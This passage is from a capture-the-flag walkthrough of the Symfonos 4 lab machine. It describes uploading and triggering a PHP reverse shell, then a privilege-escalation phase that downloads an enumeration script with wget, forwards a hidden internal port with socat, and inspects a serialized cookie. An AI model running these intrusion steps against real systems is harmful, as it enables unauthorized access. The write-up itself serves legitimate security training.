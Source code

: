 <img src="https://noman-aziz.github.io/resources/2021/symfonos4/13.png" width="800">

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/14.png" width="800">

Now, we can use this to get a reverse shell on our machine. Netcat does not seem to work on the target machine due to some reason, so now, we will upload a php reverse shell to the target machine. We will use python web server to download the php reverse on the target machine `/tmp` directory.

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/15.png" width="800">

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/16.png" width="800">

Now, we will setup a netcat listener on our machine and execute our payload on target machine

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/17.png" width="800">

We have successfully gotten a reverse shell on the target machine

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/18.png" width="800">

Now, we will stabilize our shell using python. 

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/19.png" width="800">

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/20.png" width="800">

### Privilege Escalation
First we will use this one liner to download **linux smart enumeration** script on `/tmp` directory. 

```
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh
```

Running linux smart enumeration script on our target machine tells us that there is **hidden web server** and mysql server running on target machine which can only be accessed from the inside     

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/21.png" width="800">

We will use **socat** to forward port 8080 on port 4444 since it was already installed on the target machine

```
socat TCP-LISTEN:4444,fork,reuseaddr tcp:127.0.0.1:8080 &
```

Now, we can successfully access this hidden web server on port 4444

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/22.png" width="800">

Main page doesn't tell us anything important, but if we see the cookie in the network tab of our browser, we can see some interesting details.   

```
Cookie: PHPSESSID=r14sp8fvvk614cptufe8abmv8g; username=eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiAiUG9zZWlkb24ifQ==
```
